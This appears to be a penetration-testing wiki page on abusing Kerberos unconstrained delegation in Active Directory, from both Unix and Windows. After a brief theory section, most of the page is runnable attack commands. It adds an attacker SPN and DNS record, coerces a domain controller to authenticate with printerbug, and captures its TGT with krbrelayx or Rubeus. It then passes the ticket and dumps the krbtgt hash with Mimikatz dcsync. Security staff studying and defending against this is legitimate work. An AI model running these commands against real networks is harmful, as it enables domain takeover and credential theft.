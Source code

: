 ## Theory
If an account (user or computer), with unconstrained delegations privileges, is compromised, an attacker must wait for a privileged user to authenticate on it (or force it) using Kerberos. The attacker service will receive an ST (service ticket) containing the user's TGT. That TGT will be used by the service as a proof of identity to obtain access to a target service as the target user. Alternatively, the TGT can be used with S4U2self abuse in order to gain local admin privileges over the TGT's owner.
## Exploit
=== "UNIX-like"
    In order to abuse the unconstrained delegations privileges of an account, an attacker must add his machine to its SPNs (i.e. of the compromised account) and add a DNS entry for that name.

    This allows targets (e.g. Domain Controllers or Exchange servers) to authenticate back to the attacker machine.

    All of this can be done from UNIX-like systems with [addspn](https://github.com/dirkjanm/krbrelayx), [dnstool](https://github.com/dirkjanm/krbrelayx) and krbrelayx (Python).
    !!! note
        When attacking accounts able to delegate without constraints, there are two major scenarios

        - the account is a computer: computers can edit their own SPNs via the `msDS-AdditionalDnsHostName` attribute. Since ticket received by `krbrelayx` will be encrypted with AES256 (by default), attackers will need to either supply the right AES256 key for the unconstrained delegations account (`--aesKey` argument) or the salt and password (`--krbsalt` and `-`-krbpass` arguments).
        - the account is a user: users can't edit their own SPNs like computers do. Attackers need to control an account operator (or any other user that has the needed privileges) to edit the user's SPNs. Moreover, since tickets received by krbrelayx will be encrypted with RC4, attackers will need to either supply the NT hash (`-hashes` argument) or the salt and password (`--krbsalt` and `--krbpass` arguments)
    !!! info
        By default, the salt is always

        - For users: uppercase FQDN + case sensitive username = DOMAIN.LOCALuser
        - For computers: uppercase FQDN + hardcoded host text + lowercase FQDN hostname without the trailing $ = DOMAIN.LOCALhostcomputer.domain.local
        (using DOMAIN.LOCAL\computer$ account)
    
    ```bash
    # 1. Edit the compromised account's SPN via the msDS-AdditionalDnsHostName property (HOST for incoming SMB with PrinterBug, HTTP for incoming HTTP with PrivExchange)
    addspn.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -s 'HOST/attacker.DOMAIN_FQDN' --additional 'DomainController'

    # 2. Add a DNS entry for the attacker name set in the SPN added in the target machine account's SPNs
    dnstool.py -u 'DOMAIN\CompromisedAccont' -p 'LMhash:NThash' -r 'attacker.DOMAIN_FQDN' -d 'attacker_IP' --action add 'DomainController'

    # 3. Check that the record was added successfully (after ~3 minutes)
    nslookup attacker.DOMAIN_FQDN DomainController

    # 4. Start the krbrelayx listener (the tool needs the right kerberos key to decrypt the ticket it will receive)
    # 4.a. either specify the salt and password. krbrelayx will calculate the kerberos keys
    krbrelayx.py --krbsalt 'DOMAINusername' --krbpass 'password'
    # 4.b. or supply the right Kerberos long-term key directly
    krbrelayx.py -aesKey aes256-cts-hmac-sha1-96-VALUE

    # 5. Authentication coercion
    # PrinterBug, PetitPotam, PrivExchange, ...
    printerbug.py domain/'vuln_account$'@'DC_IP' -hashes LM:NT 'DomainController'

    # 6. Check if it works. Krbrelayx should have received and decrypted a ticket, extracting the coerced principal's TGT.
    # There should be a krbtgt ccache file in the current directory. And it can be used by
    export KRB5CCNAME=`pwd`/'krbtgt.ccache'
    ```
=== "Windows"
    Once the KUD capable host is compromised, Rubeus can be used (on the compromised host) as a listener to wait for a user to authenticate, the ST to show up and to extract the TGT it contains.
    ```bash
    Rubeus.exe monitor /interval:5
    ```
    Once the monitor is ready, a forced authentication attack (e.g. PrinterBug, PrivExchange) can be operated. Rubeus will then receive an authentication (hence a Service Ticket, containing a TGT). The TGT can be used to request a Service Ticket for another service.
    ```bash
    Rubeus.exe asktgs /ticket:$base64_extracted_TGT /service:$target_SPN /ptt
    ```
    Alternatively, the TGT can be used with S4U2self abuse in order to gain local admin privileges over the TGT's owner.

    Once the TGT is injected, it can natively be used when accessing a service. For example, with Mimikatz, to extract the krbtgt hash with `lsadump::dcsync`.
    ```bash
    lsadump::dcsync /dc:$DomainController /domain:$DOMAIN /user:krbtgt
    ```